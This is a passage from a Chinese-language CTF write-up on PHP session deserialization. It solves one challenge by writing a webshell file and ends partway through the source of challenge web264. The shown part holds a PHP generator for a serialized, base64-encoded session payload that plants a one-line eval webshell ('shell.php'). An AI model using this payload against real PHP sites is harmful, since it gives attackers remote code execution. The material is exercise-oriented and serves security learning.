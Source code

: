 访问 `index.php` ,开启 session 会话，在访问 `check.php`,调用cookie,

```php
//登陆失败累计次数加1
$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit'])+1);
echo json_encode(array("error","msg"=>"登陆失败"));
```

即可生成木马文件。比如我这个会生成log-shell.php。

出现内容

```php
使用phpinfo()登陆失败----2021-02-03 11:21:34
```

我们即可把这里的字符串换成任意php代码。

比如：

```php
<?php
class User{
    public $username;
    public $password;
}

$user = new User;
$user->username = "shell.php";
$user->password = "<?=eval(\$_POST[1]);?>";
echo urlencode(base64_encode('|'.serialize($user)));
```

参考：

https://mochazz.github.io/2019/01/29/PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%85%A5%E9%97%A8%E4%B9%8Bsession%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#PHP%E7%9A%84session%E6%9C%BA%E5%88%B6

https://xz.aliyun.com/t/6640#

## web264~反序列化逃逸

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-03 02:37:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-03 16:05:38
# @message.php
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
session_start();

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
```